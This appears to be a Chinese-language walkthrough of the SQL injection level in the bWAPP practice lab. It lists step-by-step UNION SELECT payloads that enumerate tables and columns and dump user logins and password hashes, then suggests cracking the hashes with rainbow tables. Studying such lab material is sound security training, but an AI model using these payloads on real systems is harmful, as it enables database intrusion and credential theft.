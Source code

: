 # SQl get search 注入

## 分析 

直接点击search会列举当前数据表中全部内容,显然在这里需要我们注入

## low

输入单引号,报错提示在 % 附近.猜测参数被形如'% %'形式包裹没有过滤,直接带入数据库查询

#### 1 尝试用1'-- - 绕过成功,直接使用sql语句测试即可

#### 2 探测输出位置

依次输入 select 1...select 1,2 直至 

1'union select 1,2,3,4,5,6,7-- -

成功返回 2,3,5,4,Link 视为成功

#### 3 进行详细探测

1'union select 1,table_name,database(),user(),version(),6,7 from INFORMATION_SCHEMA.tables where table_schema=database()-- -

将会返回具体信息,查看当前数据库

返回

```
Title 	Release 	Character 	Genre 	IMDb
blog 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
heroes 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
movies 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
users 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
visitors 	bWAPP 	5.5.47-0ubuntu0.14.04.1 	root@localhost 	Link
```

可以看出user应该存储了我们想要的信息

#### 4 对users表结构探测

1'union select 1,column_name,3,4,5,6,7 from INFORMATION_SCHEMA.columns where table_name='users'-- -

随即返回

```
id 	3 	5 	4 	Link
login 	3 	5 	4 	Link
password 	3 	5 	4 	Link
email 	3 	5 	4 	Link
secret 	3 	5 	4 	Link
activation_code 	3 	5 	4 	Link
activated 	3 	5 	4 	Link
reset_code 	3 	5 	4 	Link
admin 	3 	5 	4 	Link
```

可以看出 id,login,passord就是我们预期的字段

#### 5 获取数据

1'union select 1,id,login,password,5,6,7 from users-- -

```
1 	A.I.M. 	5 	6885858486f31043e5839c735d99457f045affd0 	Link
2 	bee 	5 	6885858486f31043e5839c735d99457f045affd0 	Link
```

密码直接网上查在线彩虹表解密即可
